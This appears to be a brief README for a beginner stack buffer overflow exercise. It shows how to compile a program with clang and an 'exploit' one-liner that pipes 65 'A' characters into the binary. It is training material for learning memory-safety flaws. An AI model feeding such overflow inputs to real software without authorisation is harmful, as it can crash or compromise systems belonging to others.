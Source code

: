 ### How to

Build source code
```
clang main.cpp -o stack.0.bin
```

Run and exploit

```
python3 -c "print('A' * 65)" | ./stack.0.bin

```